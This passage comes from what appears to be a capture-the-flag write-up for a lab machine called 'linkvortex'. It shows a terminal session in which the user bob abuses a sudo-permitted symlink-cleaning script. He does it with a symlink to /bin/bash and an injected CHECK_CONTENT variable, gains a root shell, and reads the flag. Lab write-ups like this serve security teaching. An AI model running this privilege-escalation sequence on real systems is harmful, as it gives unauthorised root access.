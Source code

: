 This ultimately grants us **root access**!

```jsx

bob@linkvortex:~$ ln -s /bin/bash exploit.png
bob@linkvortex:~$ 
bob@linkvortex:~$ export CHECK_CONTENT="/bin/bash"
bob@linkvortex:~$ 
bob@linkvortex:~$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh exploit.png
Link found [ exploit.png ] , moving it to quarantine
root@linkvortex:/home/bob# 
root@linkvortex:/home/bob# cd ..
root@linkvortex:/home# cd ..
root@linkvortex:/# cd root
root@linkvortex:~# cat root.txt 
************31738aa9b53bb8afeb00
root@linkvortex:~# 

```
